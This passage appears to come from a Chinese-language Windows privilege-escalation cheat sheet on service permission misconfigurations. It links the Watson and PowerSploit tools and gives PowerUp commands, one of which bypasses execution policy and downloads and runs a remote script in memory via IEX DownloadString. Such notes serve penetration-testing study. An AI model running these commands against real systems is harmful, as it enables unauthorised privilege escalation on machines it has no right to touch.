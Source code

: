 [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

## [](#windows-%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%A9%E7%94%A8)Windows 配置错误利用

### [](#%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)系统服务权限配置错误

#### [](#powerup)powerup

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "&{Import-Module .\PowerUP.ps1;Invoke-AllChecks}"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print](assets/1708582736-5737ba33d8a61fa1694477044136e2a2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print")
